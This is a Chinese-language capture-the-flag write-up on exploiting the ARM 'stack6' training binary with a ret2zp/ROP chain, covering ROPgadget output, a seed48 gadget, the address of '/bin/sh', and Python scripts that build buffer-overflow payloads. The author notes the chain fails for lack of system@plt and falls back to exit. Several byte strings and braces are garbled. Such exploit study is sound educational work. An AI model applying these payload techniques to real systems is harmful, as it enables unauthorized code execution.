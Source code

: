 ```
sudo apt-get install python-capstone
git clone https://github.com/JonathanSalwan/ROPgadget.git
sudo python setup.py install
```

安装完成后，我们就来查看stack6程序内部是否有可以利用的代码片段，可以看到如果要用到下面的语句片段我们必须还有一个语句将r0赋值给r3或r4，因为要r0才是我们要存储参数的地方。这里根据[ret2ZP技术的一些实际的例子](https://doc.lagout.org/security/XXXX_ARM_exploitation.pdf)里的指出的一个函数`seed48`可以间接的实现参数传递，下面介绍具体步骤：

```
pi@raspberrypi:~/Desktop/ARM-challenges $ ROPgadget --binary ./stack6 --only "pop"
Gadgets information
============================================================
0x00010344 : pop `{`r3, pc`}`
0x00010498 : pop `{`r4, pc`}`

Unique gadgets found: 2
```

`seed48片段`

```
0xb6ea5df8 &lt;+20&gt;:    add    r0, r4, #6
   0xb6ea5dfc &lt;+24&gt;:    pop    `{`r4, pc`}`
```

在getpath函数的pop处，我们将seed48函数内的`0xb6ea5dfc`覆盖到返回地址处，他会执行到`pop    `{`r4, pc`}``，然后我们`/bin/sh`地址减6的值放在下一个栈地址，准备pop到r4内，然后再将`0xb6ea5df8`放入压入栈中pop进pc来实现r0的赋值

```
第一步：覆盖返回地址（python脚本）
import struct
padding = "11111111111111111111111111111111111111111111111111111111111111111111111111111111"
return_addr = struct.pack("I", 0xb6ea5dfc)
print padding + return_addr

第二步：找到/bin/sh的地址
gef&gt; find 0xb6e74000,+9999999,"/bin/sh"
0xb6f91b20

第三步：0xb6f91b20-6=0xb6f91b1a放入栈中准备赋值给r4，再把0xb6ea5df8 赋给pc，进行r0的赋值
import struct
padding = "11111111111111111111111111111111111111111111111111111111111111111111111111111111"
return_addr = struct.pack("I", 0xb6ea5dfc)
print padding + return_addr + "x1ax1bxf9xb6" + "xf8x5dxeaxb6"

第四步：寻找system地址
使用命令objdump -d stack6查看是否存在system@plt，发现本程序并没有system函数的入口点
```

根据上面的流程，一切都准备好了，结果没有找到system函数入口，所以RET2ZP（ROP+RET2LIBC）使用失败，主要熟悉了这种技术的使用流程，退而求其次我们使用可执行文件内有的函数exit，来直接退出。

`objdump -d stack6`找到plt表内的地址，然后直接覆盖到准备pop到pc寄存器的栈地址

```
00010380 &lt;_exit@plt&gt;:
   10380:       e28fc600        add     ip, pc, #0, 12
   10384:       e28cca10        add     ip, ip, #16, 20 ; 0x10000
   10388:       e5bcf3b8        ldr     pc, [ip, #952]! ; 0x3b8
```

